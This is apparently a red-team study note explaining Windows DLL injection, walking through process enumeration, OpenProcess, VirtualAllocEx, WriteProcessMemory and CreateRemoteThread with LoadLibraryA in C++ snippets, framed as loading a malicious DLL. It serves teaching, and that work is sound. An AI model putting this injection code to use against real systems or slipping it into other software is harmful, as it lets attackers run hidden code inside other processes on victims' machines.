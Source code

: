 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/images/abusing-dl-ls/"}
---
```


~ [[cards/red-team/Abusing Windows Internals\|Abusing Windows Internals]]
### Introduction
---
**DLL injection** is a technique used to run custom code inside the address space of another process by forcing that process to load a **Dynamic Link Library (DLL)** that contains the malicious.
## Steps
---
**Step 1: Locate the Target Process**

- Use Windows API to search for the process name and obtain its PID (Process ID).
- Uses:
  - `CreateToolhelp32Snapshot` - creates a snapshot of the specified processes, threads, modules, or heaps in the system currently running.
	  - `TH32CS_SNAPPROCESS`: Indicates we want a snapshot of all processes.
  - `Process32First` - Retrieves information about the first process in the snapshot created recently -- Acts as a starting point for process enumeration.
  - `Process32Next` -- continues the iteration through the rest of the process in the snapshot.


```cpp
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot) {
        PROCESSENTRY32 entry;
        entry.dwSize = sizeof(PROCESSENTRY32);
        if (Process32First(hSnapshot, &entry)) {
            do {
                if (!strcmp(entry.szExeFile, processName)) {
                    return entry.th32ProcessID;
                }
            } while (Process32Next(hSnapshot, &entry));
        }
    }
}


DWORD processId = getProcessId(processName); // Stores the enumerated process ID
```

- `entry.szExeFile` holds the name of the current process being checked in the loop.
- `processName` is the process we are looking for.


**Step 2: Open the Target Process**

- Open the process using `OpenProcess` with `PROCESS_ALL_ACCESS`.
    
- This grants full permissions to manipulate memory and create threads.

```cpp
HANDLE hProcess = OpenProcess(
    PROCESS_ALL_ACCESS,
    FALSE,
    processId
);
```

**Step 3: Allocate Memory for the DLL Path**

Remember: _hProcess_ is the variable that has a handle to the target process.

```cpp
LPVOID dllAllocatedMemory = VirtualAllocEx(
    hProcess,
    NULL,
    strlen(dllLibFullPath),
    MEM_RESERVE | MEM_COMMIT,
    PAGE_EXECUTE_READWRITE
);
```

- Allocate memory in the target process to hold the DLL path string.
    
- Use `VirtualAllocEx` to allocate executable memory.

**Step 4: Write the DLL Path to Allocated Memory**

```cpp
WriteProcessMemory(
    hProcess, // Handle for the target process
    dllAllocatedMemory,// Allocated Memory In Region
    dllLibFullPath, // Path to the malicious DLL
    strlen(dllLibFullPath) + 1,
    NULL
);
```


- Write the DLL file path to the allocated region in the remote process.
    
- Use `WriteProcessMemory`.

**Step 5: Load and Execute the Malicious DLL**

```cpp
LPVOID loadLibrary = (LPVOID) GetProcAddress(
    GetModuleHandle("kernel32.dll"),
    "LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
    hProcess, // Handle for the target process
    NULL,
    0, // Default size from the executable of the stack
    (LPTHREAD_START_ROUTINE) loadLibrary,
    dllAllocatedMemory, // pointer to the allocated memory region.
    0,
    NULL
);
```


- Get the address of `LoadLibraryA` from kernel32.dll using `GetProcAddress`.
    
- Use `CreateRemoteThread` to create a new thread in the remote process.
    
- Pass the DLL path and execute the thread to load the DLL.

**Note:** as for the process name you need to input what the task manager sees so in our example

![Abusing DLLs.png](/img/user/cards/red-team/images/Abusing%20DLLs.png)
### Conclusion
---
Assuming all prerequisites are met (correct privileges, matching architecture, and a valid DLL), DLL injection involves:

1. Identifying the target process.
    
2. Opening a handle to it with appropriate access rights.
    
3. Allocating memory inside the target process for the DLL path.
    
4. Writing the full path of the malicious DLL into that allocated memory.
    
5. Using `LoadLibrary` via `CreateRemoteThread` to load and execute the DLL in the context of the target process.



